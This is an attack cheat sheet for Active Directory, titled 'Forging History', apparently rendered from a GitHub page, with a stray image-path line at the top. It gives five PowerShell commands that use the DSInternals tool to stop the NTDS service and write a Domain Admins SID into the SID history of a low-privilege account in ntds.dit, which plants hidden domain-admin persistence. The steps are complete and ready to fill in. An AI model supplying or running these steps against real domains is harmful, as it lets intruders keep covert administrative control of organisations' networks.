 # FORGING HISTORY

## Requirements: Domain Admin privileges or equivalent

## Tools: DSInternals

#### 1) Get-ADUser YOUR_AD_USERNAME -properties sidhistory,memberof

#### 2) Get-ADGroup "Domain Admins"

#### 3) Stop-Service -Name ntds -force

#### 4) Add-ADDBSidHistory -SamAccountName 'LOW-PRIV_AD_ACCOUNT_USERNAME' -SidHistory 'SID_TO_ADD_TO_SID_HISTORY' -DatabasePath C:\Windows\NTDS\ntds.dit

#### 5) Start-Service -Name ntds
